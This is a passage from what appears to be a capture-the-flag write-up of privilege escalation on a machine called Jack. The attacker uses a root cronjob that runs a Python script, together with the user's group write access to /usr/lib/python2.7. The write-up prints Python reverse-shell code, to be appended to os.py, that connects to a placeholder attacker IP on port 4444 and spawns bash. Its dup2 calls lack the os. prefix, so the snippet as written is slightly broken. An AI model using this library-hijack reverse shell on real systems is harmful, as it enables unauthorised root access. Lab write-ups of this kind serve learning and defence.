 ```bash


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2025/06/26 08:40:01 CMD: UID=0    PID=12814  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py 
2025/06/26 08:42:01 CMD: UID=0    PID=12820  | /bin/sh -c /usr/bin/python /opt/statuscheck/checker.py
```

The root user has a **cronjob** that runs every minute. View the content of the Python script

```bash
jack@jack:/tmp$ cat /opt/statuscheck/checker.py
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
```
The script uses `os.system()` to run a shell command. View the group's jack-in.

```bash
jack@jack:/opt/statuscheck$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
```
search for the family group 

![image](https://github.com/user-attachments/assets/4f76b1a0-d085-4685-ba13-a3960b9d15d5)

The family group has **write access** to `/usr/lib/python2.7/`, which includes core Python modules like `os.py`. By adding a **Python reverse shell** to the end of `os.py`, any **root-level** script that imports `os` may trigger your shell, giving you privileged access.

![image](https://github.com/user-attachments/assets/bcf5f37a-6c83-4778-89bd-c72143332b5c)

```bash
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<attacker_ip>",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
![image](https://github.com/user-attachments/assets/76f6ead9-22ad-429d-9763-a90e29037dc7)


